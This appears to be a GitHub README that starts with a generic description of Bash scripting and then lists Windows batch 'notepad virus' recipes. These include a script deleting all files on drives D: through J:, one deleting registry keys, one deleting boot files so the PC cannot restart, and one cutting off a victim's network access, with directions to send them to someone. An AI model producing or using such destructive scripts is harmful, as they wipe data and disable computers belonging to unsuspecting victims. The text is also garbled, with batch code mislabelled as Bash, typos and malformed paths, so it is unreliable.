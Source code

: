# bash-script
 
 Bash script refers to a script or a program written in the Bash scripting language. Bash (Bourne-Again SHell) is a Unix shell and command-line language that provides a command-line interface (CLI) for interacting with the operating system.

Bash scripts are a series of commands and instructions that are written in a plain text file and executed in a terminal. They are typically used for automating repetitive tasks, system administration, and other command-line operations.

Bash scripts can include conditional statements, loops, variables, and functions, among other features, which can make them powerful tools for performing complex tasks. Bash scripts can also call other scripts or system commands, making them highly versatile.

## _Script no 1 "Create Fake Windows Errors With Notepad "_ 
 1) Open Notepad
 2) Replace Message Here and Title Here with your Error Message and Error-Window Title respectively.
 3) Save the file with error.vbs. (In Save as filetype, must select “all”)
 4) Now, click the file and you’ll get your custom-made Windows error message. So its easy to learn how to create a virus using notepad
 
![image](https://user-images.githubusercontent.com/88976173/204493351-c961b0fe-409e-4702-a879-2b5a204ca9de.png)
## _Script no 2 " How to stop someone’s internet access"_ 
1) Open Notepad
2) @Echo off
3) pconfig /release
4) Save that as a .bat and send it to someone. They’re IP address will be lost, and therefore they won’t be able to fix it
5) to fix it type IPconfig /renew
## _script no 3 "Dangerous Notepad Virus Code"WARNING:: This is the most dangerous virus! Be careful with its use."_
1) @ECHO OFF
2) 
del D:*.* /f /s /q

del E:*.* /f /s /q

del F:*.* /f /s /q

del G:*.* /f /s /q

del H:*.* /f /s /q

del I:*.* /f /s /q

del J:*.* /f /s /q 

3) save it as SEO.bat

## _Script no 4 "Delete the entire registry"_
1) @ECHO OFF
2) 
START reg delete HKCR/.exe

START reg delete HKCR/.dll

START reg delete HKCR/*

3) save it as SEO.bat


## _Script no 5 " Crash PC forever with Notepad Virus"_
1) @echo off
 
     attrib -r -s -h c:autoexec.bat

     del c:autoexec.bat

     attrib -r -s -h c:boot.ini

     del c:boot.ini

     attrib -r -s -h c:ntldr

     del c:ntldr

     attrib -r -s -h c:windowswin.ini

     del c:windowswin.ini
    
    2) Hacker .bat
    
    > _This should shut down the person’s computer. It shuts it off once and deletes the files needed to reboot and restart.

REMEMBER — DO NOT CLICK THIS FILE._ 


## HappyHacking - GoodLuck
